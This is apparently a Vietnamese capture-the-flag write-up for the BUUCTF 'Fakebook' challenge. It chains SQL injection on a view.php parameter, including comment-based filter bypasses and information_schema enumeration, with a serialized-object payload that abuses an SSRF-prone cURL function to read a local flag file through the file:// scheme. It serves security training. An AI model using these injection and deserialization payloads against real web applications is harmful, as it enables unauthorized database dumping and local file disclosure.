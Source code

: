 # [网鼎杯 2018]Fakebook

Challenge cho ta trang web có 2 chức năng join và login.Đầu tiên mình thử join

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e11fcf2f-bfcf-4b3e-acc3-f83787f48aa1)

Sau đó thì mình kiểm tra phần username thì thấy rằng có 1 method GET được tạo ở file `view.php` với tham số `no = 1`.Theo mình nghĩ thì là có sqli

Đầu tiên thử các payload boolean đơn giản.

`and 1=1 union select 1,2,3,4`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e131f95b-78ed-4641-ae7c-a2c8a0df6120)

Và có kết quả trả ra mình thử inject thêm để xem có database hay gì quan trọng không.Sau khi thử các payload khác nhưng đều ko cho ra kết quả ví đã bị filter.
Nên mình chuyển sang `and 1=2 union/**/select 1,2,3,4#`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/34192d6d-299e-4787-bb00-319f6ada09ff)

Và kết quả trả ra có lỗi ở cột 2, xuất hiên deserialize dể đọc flag ở file `/var/www/html/view.php`.Tiếp tục inject.

```
1. and 1=2 union/**/select 1,database(),3,4# ---> facebook
2. and 1=2 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='facebook'# ---> user
3. and 1=2 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#  --->no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
4. and 1=2 union/**/select 1,group_concat(data),3,4 from users# ---> O:8:"UserInfo":3:{s:4:"name";s:4:"lama";s:3:"age";i:20;s:4:"blog";s:10:"123123.com";}
```

Ở payload thì kết quả trả ra là deserialize string. Sau đó thì mình đi scan file bằng dirsearch. 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/9d7aed59-fb5f-4876-97ac-f0f1ce54d927)

Wget `robots.txt` thì cho ra đường dẫn tới file khác `user.php.bak`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7b074c6d-d236-44b0-a0bd-d80c9d6661b1)

Sau đó thì ta có được source code.

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();//Hàm này khởi tạo một phiên cURL, được sử dụng bởi các hàm curl_setopt(), curl_exec() và curl_close().

        curl_setopt($ch, CURLOPT_URL, $url);//Hàm này được sử dụng để thiết lập các tùy chọn cho việc truyền dữ liệu bằng cURL. CURLOPT_URL đại diện cho địa chỉ URL cần truy cập, tiếp theo là giá trị của nó.
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);//Tùy chọn này, khi được thiết lập, làm cho curl_exec() trả về phản hồi dưới dạng một chuỗi thay vì trực tiếp hiển thị nó.
        $output = curl_exec($ch);//Hàm này trả về TRUE nếu thành công hoặc FALSE nếu thất bại. Tuy nhiên, nếu tùy chọn CURLOPT_RETURNTRANSFER được thiết lập, nó trả về kết quả thực thi nếu thành công hoặc FALSE nếu thất bại.
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);//Hằng số này đại diện cho mã HTTP cuối cùng nhận được. curl_getinfo được sử dụng để lấy giá trị này dưới dạng chuỗi. Vì đã thiết lập CURLINFO_HTTP_CODE, nó trả về mã trạng thái.Nếu mã trạng thái không phải là 404, kết quả của việc thực thi sẽ được trả về.
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

## Review code

Sau khi đọc xong, mình phát hiện thêm lỗi SSRF ở get() function.Và có cả `__construct` nên chắc chắn rằng có liên quan đến serilization.

Tiếp đó là func `getBlogContents()`.Ở đây rõ ràng là tham số được truyền là "blog".Vậy thì ta sẽ input vào blog vì desrerilizatMình sẽ viết lại cho dễ hiểu

```php
class BlogReader
{
    private $blog;

    function __construct($blog)
    {
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if ($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents()
    {
        // Lỗi bảo mật: Không kiểm tra đầu vào người dùng $this->blog
        // và không kiểm tra URL trước khi thực hiện yêu cầu.
        return $this->get($this->blog);
    }

    public function isValidBlog()
    {
        // Lỗi bảo mật: Sử dụng regex để kiểm tra URL không đủ an toàn.
        // Điều này có thể bị lợi dụng để chèn SSRF.
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
}

// Sử dụng lớp BlogReader
$blogReader = new BlogReader("http://example.com");
$contents = $blogReader->getBlogContents();
echo $contents;
```

1. Không kiểm tra đầu vào người dùng trong getBlogContents: Hàm getBlogContents không kiểm tra đầu vào người dùng $this->blog, điều này có thể dẫn đến lỗ hổng SSRF nếu attacker cung cấp một URL độc hại.

2. Sử dụng regex để kiểm tra URL trong isValidBlog: Sử dụng regex để kiểm tra URL có thể không đủ an toàn và có thể bị lợi dụng để chèn SSRF. Cần có các kiểm tra bảo mật mạnh mẽ hơn để đảm bảo rằng URL được chấp nhận là an toàn.

## Conclusion

Chúng ta có thể sử dụng giao thức file để đọc các tệp cục bộ. Nếu bạn không biết nhiều về giao thức file, vui lòng tham khảo bài viết này: https://blog.csdn.net/github_39319000/article/details/86523282

Nó có thể được truy cập như sau: `file://var/www/html/flag.php`

Hãy quay lại và xem serialized string sau khi inject payload, từ đó chúng ta có thể biết rằng thông tin đăng ký của chúng ta được lưu trữ dưới dạng deserialized string.

Nó được lưu trữ trong trường dữ liệu ở serialized mode, và serialized string được trả về trong quá trình truy vấn, sau đó địa chỉ URL của `blog` được giải chuỗi trước tiên.

```solve.php
<?php
class UserInfo
{
    public $name = "1";
    public $age = 20;
    public $blog = "file://var/www/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
?>
//output:O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:20;s:4:"blog";s:28:"file://var/www/html/flag.php";}
```

Payload
```
and 1=2 union/**/select 1,2,3, 'O:8:"UserInfo":3:{s:4:"name";s:4:"lama";s:3:"age";i:20;s:4:"blog";s:28:"file://var/www/html/flag.php";}'#
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1e6e1613-3243-495f-ac1e-56e0c1ead141)
